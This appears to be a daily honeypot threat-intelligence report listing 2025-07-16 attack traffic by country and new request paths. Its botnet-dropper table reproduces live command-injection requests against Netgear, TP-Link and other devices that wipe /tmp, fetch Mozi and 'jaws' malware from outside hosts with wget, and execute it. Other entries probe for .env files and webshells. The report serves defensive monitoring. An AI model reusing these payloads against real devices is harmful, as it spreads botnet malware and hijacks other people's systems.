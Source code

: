 ```yaml
---
title: "Report: 2025-07-16 "
date: 2025-07-16
desciption: "Report: 2025-07-16" 
tags: [repport, daily]
---
```



# Daily Report: 2025-07-16 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 7 stage 1 IP address(es), linked to 5 dropper URL(s).  

There are 17 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 1071 requests were recorded during the day, originating from 7 different countries, with a peak of 372 requests coming from US.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| US               | Germany            |
| DE               | Germany            |
| US               | Germany            |
| SG               | Germany            |
| US               | Dubai              |
| US               | Dubai              |
| PT               | Georgia            |

## botnet_dropper_behaviour
| remote_addr   | request                                                                                                                                                                      |
|:--------------|:-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 8.219.207.144 | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                                                                         |
| 103.93.93.162 | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://103.93.93.162:42053/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0 |
| 182.40.118.5  | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                                                                         |
| 87.121.84.34  | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget+http://141.11.62.222/x/tplink+-O-|sh) HTTP/1.1                                                   |
| 139.5.11.242  | GET /shell?cd+/tmp;rm+-rf+*;wget+http://139.5.11.242:40260/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+jaws HTTP/1.1                                                                 |
| 199.16.59.198 | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://199.16.59.198:42575/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0 |
| 8.219.212.37  | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                                                                         |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                              |
|----:|----------------------:|:-----------------------------------------------------|
|  13 |                     6 | HEAD /?satori.ci/opt HTTP/1.1                        |
|  41 |                     4 | GET /webshell HTTP/1.1                               |
|  43 |                     4 | GET /shell.asp HTTP/1.1                              |
| 171 |                     1 | \x00\x0E\x08e\x7F\xEEXCA\xD1\xDD\x00\x00\x00\x00\x00 |
| 172 |                     1 | \x00\x0E8e\x7F\xEEXCA\xD1\xDD\x00\x00\x00\x00\x00    |
| 180 |                     1 | GET /.env.zinerak HTTP/1.1                           |
| 181 |                     1 | GET /.env-logfile HTTP/1.1                           |
| 192 |                     1 | GET /.env-app.log HTTP/1.1                           |
| 197 |                     1 | GET /.env.netlify HTTP/1.1                           |
| 198 |                     1 | GET /.env-angular HTTP/1.1                           |
| 199 |                     1 | GET /.env-ci.json HTTP/1.1                           |
| 262 |                     1 | GET /socket.io/1/?t=1752680829846 HTTP/1.1           |
| 290 |                     1 | GET /odinhttpcall1752651464 HTTP/1.1                 |
| 292 |                     1 | GET /OdinHttpCall1752651464 HTTP/1.1                 |
| 293 |                     1 | GET /Odin/http/call1752651464 HTTP/1.1               |
| 344 |                     1 | POST /cgi-bin/admin.cgi HTTP/1.1                     |
| 345 |                     1 | est/                                                 |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                   372 | US                 |
|  1 |                   118 | GB                 |
|  2 |                    98 | DE                 |
|  3 |                    80 | HK                 |
|  4 |                    75 | PL                 |
|  5 |                    51 | RU                 |
|  6 |                    47 | PT                 |
|  7 |                    33 | BG                 |
|  8 |                    29 | SC                 |
|  9 |                    25 | CN                 |
| 10 |                    24 | NL                 |
| 11 |                    20 | CA                 |
| 12 |                    18 | SG                 |
| 13 |                    12 | SE                 |
| 14 |                     7 | MU                 |
| 15 |                     7 | IN                 |
| 16 |                     6 | IL                 |
| 17 |                     6 | AE                 |
| 18 |                     6 | BE                 |
| 19 |                     4 | FR                 |
| 20 |                     4 | BR                 |
| 21 |                     4 | JP                 |
| 22 |                     3 | KZ                 |
| 23 |                     3 | TH                 |
| 24 |                     2 | VN                 |
| 25 |                     2 | IR                 |
| 26 |                     2 | IE                 |
| 27 |                     2 | MD                 |
| 28 |                     2 | ID                 |
| 29 |                     1 | AR                 |
| 30 |                     1 | CH                 |
| 31 |                     1 | IS                 |
| 32 |                     1 | PA                 |
| 33 |                     1 | KR                 |
| 34 |                     1 | GR                 |
| 35 |                     1 | AG                 |
| 36 |                     1 | KH                 |
| 37 |                     1 | AO                 |
